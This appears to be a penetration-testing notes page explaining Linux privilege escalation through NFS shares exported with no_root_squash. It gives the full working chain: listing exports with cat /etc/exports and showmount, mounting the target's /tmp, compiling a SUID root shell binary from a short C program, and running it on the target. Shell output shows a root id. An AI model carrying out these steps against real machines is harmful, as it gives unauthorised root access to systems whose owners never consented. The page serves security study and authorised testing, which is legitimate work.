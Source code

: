 ```yaml
---
description: >-
  Sharing a fileserver over the network sometimes allows you to upload files as
  root and escalate privileges
---
```


# Network File Sharing (NFS)

## Finding NFS folders

To find a list of all configured NFS folders, just look in the `/etc/exports` file.&#x20;

```bash
cat /etc/exports
```

This file shows the directories paths and the rules for sharing. An example would be the following:

```bash
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_subtree_check)
```

The danger here is the `no_root_squash` option. If you see this, it means that any files uploaded here will keep their root privileges. We can abuse this to upload programs that can be run as root on the target machine.&#x20;

### Finding NFS folders from the outside

We can also find these locations from our host machine, but without the rules associated with them. Using the `showmount -e` command, which will show a list of folders like this:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ showmount -e 10.10.158.49
</strong>Export list for 10.10.158.49: 
/home/ubuntu/sharedfolder * 
/tmp * 
/home/backup *
</code></pre>

## Uploading a SUID binary

The trick to exploiting this is to upload a **SUID** binary that executes the code we want. Then we can run it as the user we have on the target system and elevate ourselves to root privileges.&#x20;

We'll start by connecting to the target machine, by mounting it to a local folder. First, make a folder somewhere that will be mounted to the target. Then mount it using the `mount` command to one of the target's folders with the `no_root_squash` set. Finally, to make it easier for myself, I change the owner of the `target_tmp` directory on my host to my own user, because we created it with `sudo`.&#x20;

```bash
mkdir target_tmp
sudo mount -o rw 10.10.158.49:/tmp target_tmp/
sudo chown $USER:$(id -g) target_tmp/
```

{% hint style="info" %}
**Tip**: You can view your active mounts by looking at your `/proc/mounts` file. Then when you want to disconnect you can unmount the directory with the `umount` command.&#x20;
{% endhint %}

Now the `target_tmp` folder is connected to the target machine's `/tmp` directory. Then we can start creating the malicious binary, that executes the `/bin/bash` command for example.&#x20;

{% code title="shell.c" %}
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
{% endcode %}

Then we can compile it into the target directory. Make sure you use `sudo` for the `gcc` command to ensure that the file owner is root when we upload it.&#x20;

```bash
sudo gcc shell.c -o target_tmp/shell
```

Finally, we need to set the SUID bit on this binary, to make sure that when we execute it our privileges get set to root.&#x20;

```bash
sudo chmod u+s target_tmp/shell
```

Now if we look from the target machine, we see that we have created a `shell` program that is owned by root, and has the SUID bit set (seen by the `s` in the permissions).

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ls -laF /tmp/shell
</strong>-rwsr-xr-x 1 root root 16784 Feb 27 09:42 /tmp/shell*
   ^
</code></pre>

This means we can now just run the `/tmp/shell` program on the target with our low-privilege user, to get a root shell.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ /tmp/shell
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
